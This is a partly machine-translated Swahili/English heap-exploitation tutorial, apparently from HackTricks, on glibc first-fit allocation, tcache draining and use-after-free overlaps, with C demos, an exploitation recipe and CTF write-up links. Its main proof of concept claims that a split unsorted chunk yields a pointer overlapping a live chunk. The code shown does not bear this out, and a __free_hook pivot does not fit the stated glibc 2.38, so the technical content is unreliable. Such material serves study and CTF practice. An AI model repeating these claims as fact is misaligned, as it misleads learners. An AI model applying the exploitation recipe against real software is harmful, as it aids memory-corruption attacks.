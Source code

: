 # First Fit

{{#include ../../../banners/hacktricks-training.md}}

## **First Fit**

Wakati unachomoa kumbukumbu katika programu ukitumia glibc, "bins" tofauti zinatumika kusimamia vipande vya kumbukumbu. Hapa kuna maelezo rahisi ya hali mbili za kawaida: bins zisizo na mpangilio na fastbins.

### Bins Zisizo na Mpangilio

Wakati unachomoa kipande cha kumbukumbu ambacho si kipande cha haraka, kinaenda kwenye bin isiyo na mpangilio. Bin hii inafanya kazi kama orodha ambapo vipande vipya vilivyotolewa vinapowekwa mbele (the "head"). Wakati unahitaji kipande kipya cha kumbukumbu, mtoaji anatazama bin isiyo na mpangilio kutoka nyuma (the "tail") ili kupata kipande ambacho ni kikubwa vya kutosha. Ikiwa kipande kutoka kwenye bin isiyo na mpangilio ni kikubwa kuliko unavyohitaji, kinagawanywa, ambapo sehemu ya mbele inarudishwa na sehemu iliyobaki inabaki kwenye bin.

Mfano:

- Unapoweka 300 bytes (`a`), kisha 250 bytes (`b`), kisha unachomoa `a` na kuomba tena 250 bytes (`c`).
- Wakati unachomoa `a`, inaenda kwenye bin isiyo na mpangilio.
- Ikiwa kisha unahitaji 250 bytes tena, mtoaji anapata `a` kwenye tail na kuigawanya, akirudisha sehemu inayofaa ombi lako na kuweka zingine kwenye bin.
- `c` itakuwa ikielekeza kwenye `a` ya awali na kujazwa na maudhui ya `a`.
```c
char *a = malloc(300);
char *b = malloc(250);
free(a);
char *c = malloc(250);
```
### Fastbins

Fastbins zinatumika kwa vipande vidogo vya kumbukumbu. Tofauti na unsorted bins, fastbins zinaongeza vipande vipya kwenye kichwa, na kuunda tabia ya last-in-first-out (LIFO). Ikiwa unahitaji kipande kidogo cha kumbukumbu, allocator atavuta kutoka kwenye kichwa cha fastbin. 

Mfano:
```c
char *a = malloc(20);
char *b = malloc(20);
char *c = malloc(20);
char *d = malloc(20);
free(a);
free(b);
free(c);
free(d);
a = malloc(20);   // d
b = malloc(20);   // c
c = malloc(20);   // b
d = malloc(20);   // a
```
---
### 🔥 Mambo ya kisasa ya glibc (tcache ≥ 2.26)

Tangu glibc 2.26 kila thread inashikilia **tcache** yake ambayo inachunguzwa *kabla ya* bin isiyo na mpangilio. Hivyo basi, hali ya first-fit itafikiwa **tu ikiwa**:

1. Ukubwa ulioombwa ni **kubwa kuliko `tcache_max`** (0x420 kwenye 64-bit kwa chaguo-msingi), *au*
2. Bin inayohusiana ya tcache **tayari imejaa au kutolewa kwa mikono** (kwa kugawa vipengele 7 na kuviweka katika matumizi).

Katika mashambulizi halisi, kwa kawaida utaongeza utaratibu wa msaada kama:
```c
// Drain the tcache for a given size
for(int i = 0; i < 7; i++) pool[i] = malloc(0x100);
for(int i = 0; i < 7; i++) free(pool[i]);
```
Once the tcache is exhausted, subsequent frees go to the unsorted bin and classic first-fit behaviour (tail search, head insertion) can be triggered again.

---
### 🚩 Kuunda UAF ya kipande kinachoshirikiana na first-fit

The fragment below (tested on glibc 2.38) shows how the splitter in the unsorted bin can be abused to create 2 **overlapping pointers** – a powerful primitive that converts a single free into a write-after-free.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(){
setbuf(stdout, NULL);

/* 1. prepare 2 adjacent chunks and free the first one */
char *A = malloc(0x420);   // big enough to bypass tcache
char *B = malloc(0x420);
strcpy(A, "AAAA\n");
free(A);                   // A → unsorted

/* 2. request a *smaller* size to force a split of A */
char *C = malloc(0x400);   // returns lower half of former A

/* 3. The remainder of A is still in the unsorted bin.
Another 0x400-byte malloc will now return the *same*
region pointed to by B – creating a UAF/overlap. */
char *C2 = malloc(0x400);

printf("B  = %p\nC2 = %p (overlaps B)\n", B, C2);

// Arbitrary write in B is immediately visible via C2
memset(B, 'X', 0x10);
fwrite(C2, 1, 0x10, stdout);  // prints Xs
}
```
Exploitation recipe (common in recent CTFs):

1. **Drain** the tcache for the target size.
2. **Free** a chunk so it lands in the unsorted bin.
3. **Allocate** a slightly smaller size – the allocator splits the unsorted chunk.
4. **Allocate** again – the leftover part overlaps with an existing in-use chunk → UAF.
5. Overwrite sensitive fields (function pointers, FILE vtable, etc.)

A practical application can be found in the 2024 HITCON Quals *Setjmp* challenge where this exact primitive is used to pivot from a UAF to full control of `__free_hook`.

---
### 🛡️  Mitigations & Hardening

* **Safe-linking (glibc ≥ 2.32)** only protects the singly-linked *tcache*/**fastbin** lists.  The unsorted/small/large bins still store raw pointers, so first-fit based overlaps remain viable if you can obtain a heap leak.
* **Heap pointer encryption & MTE** (ARM64) do not affect x86-64 glibc yet, but distro hardening flags such as `GLIBC_TUNABLES=glibc.malloc.check=3` will abort on inconsistent metadata and can break naïve PoCs.
* **Filling tcache on free** (proposed in 2024 for glibc 2.41) would further reduce unsorted usage; monitor future releases when developing generic exploits.

---
## Other References & Examples

- [**https://heap-exploitation.dhavalkapil.com/attacks/first_fit**](https://heap-exploitation.dhavalkapil.com/attacks/first_fit)
- [**https://8ksec.io/arm64-reversing-and-exploitation-part-2-use-after-free/**](https://8ksec.io/arm64-reversing-and-exploitation-part-2-use-after-free/)
- ARM64. Tumia baada ya kuachiliwa: Tengeneza kitu cha mtumiaji, kiache, tengeneza kitu kinachopata kipande kilichoachiliwa na ruhusu kuandika ndani yake, **kuandika nafasi ya mtumiaji->nenosiri** kutoka kwa ile ya awali. Tumia tena mtumiaji ili **kupita ukaguzi wa nenosiri**
- [**https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/use_after_free/#example**](https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/use_after_free/#example)
- Programu inaruhusu kuunda noti. Noti itakuwa na habari za noti katika malloc(8) (ikiwa na kiashiria kwa kazi inayoweza kuitwa) na kiashiria kwa malloc nyingine (<size>) yenye maudhui ya noti.
- Shambulio litakuwa kuunda noti 2 (note0 na note1) zikiwa na maudhui makubwa ya malloc kuliko saizi ya habari za noti na kisha kuziachilia ili ziingie kwenye fast bin (au tcache).
- Kisha, tengeneza noti nyingine (note2) yenye saizi ya maudhui 8. Maudhui yatakuwa katika note1 kwani kipande kitarejelewa, ambapo tunaweza kubadilisha kiashiria cha kazi ili kiashirie kazi ya ushindi na kisha Tumia-Baada-ya-Kuachiliwa note1 ili kuita kiashiria kipya cha kazi.
- [**https://guyinatuxedo.github.io/26-heap_grooming/pico_areyouroot/index.html**](https://guyinatuxedo.github.io/26-heap_grooming/pico_areyouroot/index.html)
- Inawezekana kutenga kumbukumbu, kuandika thamani inayotakiwa, kuachilia, kuirejesha na kwa kuwa data ya awali bado ipo, itachukuliwa kulingana na muundo mpya unaotarajiwa katika kipande, hivyo kufanya iwezekane kuweka thamani ili kupata bendera.
- [**https://guyinatuxedo.github.io/26-heap_grooming/swamp19_heapgolf/index.html**](https://guyinatuxedo.github.io/26-heap_grooming/swamp19_heapgolf/index.html)
- Katika kesi hii inahitajika kuandika 4 ndani ya kipande maalum ambacho ndicho cha kwanza kinachotengwa (hata baada ya kuachilia kwa nguvu yote). Kila kipande kipya kinachotengwa nambari yake katika orodha ya index inahifadhiwa. Kisha, tengeneza vipande 4 (+ ile iliyotengwa awali), ya mwisho itakuwa na 4 ndani yake, ziache na kulazimisha urejeleaji wa cha kwanza, ambacho kitatumia kipande cha mwisho kilichooachiliwa ambacho ndicho chenye 4 ndani yake.
- 2024 HITCON Quals Setjmp write-up (Quarkslab) – shambulio la vitendo la first-fit / unsorted-split overlap: <https://ctftime.org/writeup/39355>
- Angstrom CTF 2024 *heapify* write-up – kutumia kugawanya unsorted-bin ili kuvuja libc na kupata overlap: <https://hackmd.io/@aneii11/H1S2snV40>

{{#include ../../../banners/hacktricks-training.md}}
